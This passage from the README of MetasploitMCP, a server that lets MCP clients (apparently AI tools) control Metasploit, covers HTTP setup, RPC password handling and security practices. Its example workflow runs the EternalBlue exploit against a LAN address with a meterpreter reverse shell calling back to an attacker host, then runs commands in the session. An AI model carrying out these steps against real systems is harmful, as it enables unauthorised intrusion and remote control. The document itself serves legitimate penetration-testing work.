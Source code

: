 ```json
```

**Note:** Environment variables can also be configured in a `.env.local` file in the project directory.

### Other MCP Clients

For other MCP clients that use HTTP/SSE:

1. Start the server in HTTP mode:
   ```bash
   python MetasploitMCP.py --transport http --host 0.0.0.0 --port 8085
   ```

2. Configure your MCP client to connect to:
   - SSE endpoint: `http://your-server-ip:8085/sse`

## Security Configuration

This project includes enhanced security measures:

### Secure Password Generation

A cryptographically secure password has been generated for Metasploit RPC access:
- **Length**: 32 characters
- **Generated using**: OpenSSL rand with base64 encoding
- **Stored in**: `.env.local` (not committed to version control)

### Environment Variables

- **MSF_PASSWORD**: Securely generated random password
- **MSF_SSL**: Currently set to `false` (can be enabled for production)
- **OPENROUTER_API_KEY**: Your OpenRouter API key for AI features

### Best Practices

1. **Never commit secrets**: `.env.local` is in `.gitignore`
2. **Use SSL in production**: Set `MSF_SSL=true` for encrypted communication
3. **Regular password rotation**: Generate new passwords periodically
4. **Access control**: Only run Metasploit RPC on trusted networks

## Example Workflows

### Basic Exploitation

1. List available exploits: `list_exploits("ms17_010")`
2. Select and run an exploit: `run_exploit("exploit/windows/smb/ms17_010_eternalblue", {"RHOSTS": "192.168.1.100"}, "windows/x64/meterpreter/reverse_tcp", {"LHOST": "192.168.1.10", "LPORT": 4444})`
3. List sessions: `list_active_sessions()`
4. Run commands: `send_session_command(1, "whoami")`

### Post-Exploitation
